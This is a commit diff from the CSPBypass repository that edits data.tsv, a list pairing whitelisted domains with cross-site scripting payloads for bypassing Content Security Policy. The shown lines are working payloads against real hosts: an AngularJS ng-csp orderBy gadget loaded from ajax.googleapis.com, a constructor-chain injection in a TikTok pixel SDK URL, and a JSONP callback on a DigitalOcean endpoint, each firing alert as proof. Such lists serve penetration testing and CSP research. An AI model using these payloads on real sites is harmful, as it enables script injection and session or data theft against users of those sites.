

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown.

Commit message:
Removed unneccesary id

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -5,3 +5,3 @@ ads.yap.yahoo.com	<script src="https://ads.yap.yahoo.com/nosdk/wj/v1/getAds.do?l
 ajax.googleapis.com	<body ng-app ng-csp><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-analytics.tiktok.com	<script src="https://analytics.tiktok.com/i18n/pixel/sdk.js?sdkid=BSLBLMOQH7P7CAP6MG40%22-[][`constructor`][`constructor`](`aler`%2b`t(document.domain)`)()-%22"></script>
+analytics.tiktok.com	<script src="https://analytics.tiktok.com/i18n/pixel/sdk.js?sdkid=%22-[][`constructor`][`constructor`](`aler`%2b`t(document.domain)`)()-%22"></script>
 anchor.digitalocean.com	<script src="https://anchor.digitalocean.com/index.php/form/getForm?munchkinId=113-DTN-266&form=1402&callback=alert"></script>
```
